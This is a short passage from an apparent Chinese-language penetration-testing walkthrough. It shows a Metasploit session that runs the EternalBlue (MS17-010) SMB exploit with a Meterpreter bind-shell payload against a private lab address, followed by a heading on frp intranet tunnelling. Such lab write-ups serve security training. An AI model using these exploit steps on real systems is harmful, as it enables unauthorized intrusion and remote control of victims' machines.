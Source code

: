```shell
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.201.129
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 9988
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

![image-20211012215022855](/assets/image-20211012215022855.png)





## 2.3 通过frp内网穿透来实现内网穿透
